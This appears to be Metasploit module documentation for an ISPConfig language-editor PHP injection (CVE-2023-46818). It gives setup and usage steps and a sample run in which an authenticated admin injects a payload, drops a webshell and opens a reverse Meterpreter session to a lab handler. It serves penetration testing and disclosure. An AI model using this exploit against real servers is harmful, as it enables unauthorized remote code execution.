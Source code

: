 ## Vulnerable Application

ISPConfig before 3.2.11p1 is vulnerable to PHP code injection via the language file editor (language_edit.php) if the
`admin_allow_langedit` option is enabled.
An authenticated administrator can inject arbitrary PHP code, leading to remote code execution on the server.

- Vendor Advisory: https://www.ispconfig.org/
- CVE: [CVE-2023-46818](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)
- PoC/Details: [https://github.com/SyFi/CVE-2023-46818](https://github.com/SyFi/CVE-2023-46818)
- Exploit writeup: [https://karmainsecurity.com/KIS-2023-13](https://karmainsecurity.com/KIS-2023-13)

### Setup Example

1. Download and install ISPConfig (vulnerable version, e.g., 3.2.11 or earlier)
2. Enable `admin_allow_langedit` in the ISPConfig configuration.
3. Create an admin user for testing.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/linux/http/ispconfig_lang_edit_php_code_injection`
3. Set the `RHOSTS`, `USERNAME`, and `PASSWORD` options
4. Set `TARGETURI` if ISPConfig is not at the web root
5. Run the module
6. You should get a Meterpreter or command shell session as the web server user.

## Options

### USERNAME
The ISPConfig administrator username to authenticate with.

### PASSWORD
The ISPConfig administrator password to authenticate with.


## Scenarios

### ISPConfig 3.2.11 (or earlier), Ubuntu 20.04

```
msf6 exploit(linux/http/ispconfig_lang_edit_php_code_injection) > run verbose=true
[*] Started reverse TCP handler on 192.168.168.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if the target is ISPConfig...
[*] Attempting login with username 'admin' and password 'RGT2WvpoALJXh8t'
[+] Login successful!
[+] ISPConfig version detected: ISPConfig Version: 3.2.10
[+] The target appears to be vulnerable. Version: ISPConfig Version: 3.2.10
[*] Attempting login with username 'admin' and password 'RGT2WvpoALJXh8t'
[+] Login successful!
[*] Checking if admin_allow_langedit is enabled...
[+] Language editor is accessible - admin_allow_langedit appears to be enabled
[*] Injecting PHP payload...
[+] Extracted CSRF tokens: ID=language_ed..., KEY=86845285663...
[*] Sending stage (40004 bytes) to 192.168.168.186
[*] Meterpreter session 2 opened (192.168.168.128:4444 -> 192.168.168.186:58822) at 2025-07-07 11:51:12 +0200


meterpreter >
meterpreter > sysinfo
Computer    : server1
OS          : Linux server1 6.8.0-60-generic #63~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Tue Apr 22 19:00:15 UTC 2 x86_64
Meterpreter : php/linux
```

## Notes
- The module requires valid ISPConfig admin credentials and the `admin_allow_langedit` option enabled.
- The shell is removed after exploitation if `DELETE_SHELL` is true.
- The exploit drops a PHP webshell and triggers the payload for Meterpreter or command shell access.
